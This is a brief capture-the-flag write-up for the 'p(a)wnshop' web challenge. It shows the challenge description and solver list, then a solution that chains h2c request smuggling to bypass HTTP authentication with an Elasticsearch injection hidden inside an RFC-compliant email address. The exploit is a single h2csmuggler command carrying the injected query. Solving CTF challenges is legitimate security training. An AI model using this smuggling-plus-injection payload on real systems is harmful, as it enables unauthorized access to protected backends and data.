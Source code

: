 ```
p(a)wnshop - 478pts - 9 solves - Author: rekter0

pawnshop is the leading hacking tools marketplace, an important auction holding a flag is happening. We want to know if listed items are not leaked before auction ends.

Challenge

Attachment

Note:
- flag is lowercase
- .htpasswd is not meant to be bruteforced, one running in remote is different


First Blood
1. RadboudInstOfPwning
2. Black Bauhinia
3. Never Stop Exploiting
```

1- h2c request smuggling to bypass http auth
2- Elastic search injection through email compliant RFC

you can use https://github.com/BishopFox/h2csmuggler
```
./h2csmuggler.py -x https://pawnshop.2021.3k.ctf.to:4443/backend/ "http://localhost:8080/admin.py?action=lookup&mail='*\" AND value:*http2_4nd* OR value:\"'@aa.com"
```
